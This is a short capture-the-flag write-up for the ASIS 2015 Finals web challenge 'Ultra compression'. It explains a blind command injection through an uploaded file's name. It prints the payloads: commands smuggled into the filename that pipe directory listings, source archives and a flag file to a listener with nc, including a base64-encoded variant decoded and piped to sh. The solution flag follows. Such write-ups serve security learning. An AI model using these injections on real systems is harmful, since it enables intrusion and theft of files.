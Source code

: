 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (web125) Ultra compression"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by teammates, nguyen and akg*

Through testing to know it's a blind cmd injection in filename of a file upload.

Set a host listen to a port and inject a cmd, ex: ```filename.txt; ls |nc ip port```

To copy the source, ```find .. -iname '*gz'|xargs cat|nc ip port```, analyze it, we have expl:

{% highlight text %}
~  echo "cat /home/asis/flag.txt | nc ip port" | base64
<base64string>
~ a.txt| echo <base64string> | base64 -d | sh
{% endhighlight %}

{% highlight text %}
ASIS{72a126946e40f67a04d926dd4786ff15}
{% endhighlight %}